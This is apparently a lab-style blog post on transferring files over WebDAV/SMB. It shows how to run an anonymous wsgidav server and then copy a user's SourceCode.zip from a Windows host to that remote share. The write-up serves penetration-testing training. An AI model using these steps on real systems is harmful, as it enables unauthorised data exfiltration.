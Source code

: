 ```yaml
---
description: >-
  WebDAV Uploading files via SMB (over HTTP)
title: WebDAV Uploading files via SMB (over HTTP)           # Add title here
date: 2024-01-15 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, WebDAV Uploading Files]                     # Change Templates to Writeup
tags: [file transfer, webdav, smb]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### SMB Uploads

We can run SMB over HTTP with WebDav. WebDAV is an extension of HTTP, the WebDAV protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.

When you use SMB, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. In the following Wireshark capture, we attempt to connect to the file share testing3, and because it didn't find anything with SMB, it uses HTTP.

To set up our WebDav server, we need to install two Python modules, wsgidav and cheroot [wsgidav github](https://github.com/mar10/wsgidav) After installing them, we run the wsgidav application in the target directory.

### Installing WebDav Python modules
```bash
Shuciran@htb[/htb]$ sudo pip install wsgidav cheroot
```
```bash
Shuciran@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

### Connecting to the Webdav Share
Now we can attempt to connect to the share using the DavWWWRoot directory.

```powershell
C:\htb> dir \\192.168.49.128\DavWWWRoot
 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

> DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
{: .prompt-warning }

You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

### Uploading Files using SMB
```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
